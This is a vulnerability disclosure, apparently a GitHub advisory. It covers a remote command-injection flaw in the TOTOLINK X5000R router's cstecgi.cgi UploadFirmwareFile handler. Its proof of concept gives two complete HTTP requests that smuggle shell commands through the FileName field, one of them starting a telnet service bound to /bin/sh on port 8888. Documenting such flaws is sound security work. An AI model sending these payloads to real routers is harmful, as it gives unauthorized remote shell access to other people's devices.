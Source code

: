# TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:X5000R

Version:X5000R_Firmware(V9.1.0u.6118_B20201102)

Type:Remote Command Execution

Author:Jiaqian Peng,Huizhao Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in TOTOLINK Technology router with firmware which was released recently，allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `cstecgi.cgi` binary:

In `UploadFirmwareFile` function, `FileName` is directly passed by the attacker, so we can control the `FileName` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:100%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `FileName` as **;/usr/sbin/telnetd;** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 86
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/advance/upload.html?time=1639902909084
Cookie: SESSION_ID=2:1420072624:2

{"topicurl":"UploadFirmwareFile","FileName":";/usr/sbin/telnetd;","ContentLength":"0"}
```

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

We set `FileName` as **;telnetd -l /bin/sh -p 8888 -b 0.0.0.0;** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 106
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/advance/upload.html?time=1639902909084
Cookie: SESSION_ID=2:1420072624:2

{"topicurl":"UploadFirmwareFile","FileName":";telnetd -l /bin/sh -p 8888 -b 0.0.0.0;","ContentLength":"0"}
```

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>



## Result

The target router has enabled the telnet service.

<div  align="center"><img src="./images/4.png" style="zoom:70%;" /></div>

Get a shell!

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>

